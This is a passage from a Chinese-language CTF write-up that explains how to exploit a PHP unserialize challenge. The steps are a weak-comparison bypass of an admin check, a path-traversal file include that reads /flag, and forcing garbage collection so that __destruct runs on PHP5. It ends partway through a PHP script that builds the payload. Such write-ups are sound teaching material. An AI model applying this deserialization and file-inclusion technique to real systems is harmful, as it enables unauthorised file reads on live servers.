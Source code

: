 不难发现：传入的 user 参数会经过反序列化，且检测是否同时包含 `admin` 和 `Access":`，`User` 实例在 Destruct 的时候会检测 `username` 是否为 `admin`（弱比较，可以传入 `0` 绕过检查），如果条件为真则反序列化且要求反序列化结果为 `Access` 实例并调用其 `getToken()` 成员函数并对其进行 `include`。

可大致猜测此处利用 LFI (Local File Include) 漏洞获得 Flag，构造 `Access->prefix` 为 `/`，`Access->suffix` 为 `/../flag`，最后拼接出字符串 `/lilctf/../flag`，PHP 会自动解析路径为 `/flag`。

但是注意到最后有个异常抛出，可以通过试验发现 PHP5 (PHP7 以上会调用) 在抛出异常后不会调用 `__destruct` 销毁对象:

![](images/your_unser-2.webp)

经检测题目环境为 PHP5:

![](images/your_unser-3.webp)

所以此处需要构造一个需要被 GC 立即回收的对象，下面将会构造一个 Array，利用反序列化特性，将 User 对象写入到 Array 的第一个索引，再将 null 值再次写入到 Array 的第一个索引，这样即可立即触发 GC 回收。

根据上面的发现可以编写 PHP 脚本获得序列化字符串:

```php
<?php
class User
{
    public $username;
    public $value;
}

class Access
{
    protected $prefix;
    protected $suffix;
    
    public function __construct($prefix, $suffix)
    {
    	$this->prefix = $prefix;
    	$this->suffix = $suffix;
    }
}

$access = new Access("/", "/../flag");

$user = new User();
$user->username = 0;
```